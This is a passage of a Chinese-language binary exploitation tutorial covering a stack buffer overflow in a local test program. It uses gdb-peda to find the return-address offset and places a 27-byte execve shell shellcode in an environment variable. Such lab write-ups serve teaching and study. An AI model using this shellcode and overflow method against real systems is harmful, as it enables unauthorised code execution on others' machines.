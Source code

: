 ## 0x02确定返回地址的偏移量

首先，我们需要确定输入到达返回地址所需字节数。

可以使用`peda`的`pattern_creat`创造一个40字节的字符串：

```
gdb-peda$ pattern_create 40 a.txt
Writing pattern of 40 chars to filename "a.txt"
```

将字符串传入并执行

```
gdb-peda$ r < a.txt
Starting program: /home/void0red/Documents/pwn/test < a.txt
23333

Program received signal SIGSEGV, Segmentation fault.
[-------------------------------------code-------------------------------------]
   0x400589 <main+35>:	call   0x400430 <puts@plt>
   0x40058e <main+40>:	mov    eax,0x0
   0x400593 <main+45>:	leave  
=> 0x400594 <main+46>:	ret    
   0x400595:	nop    WORD PTR cs:[rax+rax*1+0x0]
   0x40059f:	nop
   0x4005a0 <__libc_csu_init>:	push   r15
   0x4005a2 <__libc_csu_init+2>:	push   r14
```

程序停在了`ret`指令的地方，因为覆盖返回地址的是一串无意义的值，无法进行跳转，上一步操作将`rbp`（寄存器）的值拷贝到`rsp`（寄存器）中，导致`rsp`指向了存储返回地址的栈空间，通过查看`rsp`指向的栈的数据，可以算出返回地址在栈中，相距未读入数据时栈顶的偏移量。

```
gdb-peda$ x/wx $rsp
0x7fffffffdd08:	0x44414128
```

可以看出原本存放返回地址的的栈上现在存放的是`0x44414128`

用`pattern_offest`计算偏移量

```
gdb-peda$ pattern_offset 0x44414128
1145127208 found at offset: 24
```

OK，偏移量为24，也就是说输入值的前24个字节是任意的（注意不要存在`\x00`之类的字节，可能会导致读入终止），接在后面存入8个字节的地址，就能够实现跳转。

## 0x03确定shellcode的地址

因为选择的`shellcode地址`为27字节，前面的填充数据要用24字节，合起来超过40字节，无法写入，不如将包含`shellcode`的指令放入系统环境，用于测试

```
export PWN=`python -c 'print"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`
```
